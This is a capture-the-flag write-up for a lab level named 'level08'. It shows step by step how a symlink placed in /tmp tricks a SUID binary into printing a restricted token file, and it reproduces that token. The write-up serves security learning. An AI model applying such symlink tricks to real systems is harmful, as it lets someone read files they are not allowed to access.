# Level 08 - Symlink (TOCTOU) Exploit

This level demonstrates a **Time-of-Check to Time-of-Use (TOCTOU)** vulnerability via symbolic links and poor file permission handling.

---

## Step 1: Inspect the Binary

```bash
ls -la
```

Output shows:

```
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

- `level08` is SUID and runs with `flag08`'s privileges.
- There is a `token` file only accessible to `flag08`.

---

## Step 2: Test Program Behavior

```bash
./level08 token
```

Output:

```
You may not access 'token'
```

Likely some internal check (e.g., ownership or path whitelist) blocks direct access.

---

## Step 3: Try Symlink Attack

```bash
ln -s /home/user/level08/token /tmp/link
./level08 /tmp/link
quif5eloekouj29ke0vouxean
```

The program likely checks file access using `stat()` (or similar), but actually opens it after — a classic TOCTOU.

---

## Step 4: Result

```text
quif5eloekouj29ke0vouxean
```

---

## ✅ Summary

- TOCTOU: Symbolic link allowed us to trick the binary’s access check.
- The `level08` binary failed to securely handle symlinks.
- This exposed a restricted file by circumventing ownership validation.
